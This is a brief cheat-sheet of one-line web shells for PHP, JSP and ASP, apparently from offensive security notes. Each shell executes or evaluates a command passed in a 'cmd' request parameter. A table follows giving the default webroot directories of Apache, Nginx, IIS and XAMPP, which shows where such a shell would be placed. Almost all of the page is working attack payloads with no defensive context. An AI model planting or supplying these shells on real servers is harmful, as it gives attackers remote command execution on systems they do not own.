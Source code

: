 ## php\
```
<?php system($_REQUEST["cmd"]); ?>
```

## jsp
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## asp
```
<% eval request("cmd") %>
```

## Default webroots for common web servers:
|Web Server|Default Webroot|
|----------|---------------|
|Apache|/var/www/html/|
|Nginx|/usr/local/nginx/html/|
|IIS|c:\inetpub\wwwroot\|
|XAMPP|C:\xampp\htdocs\|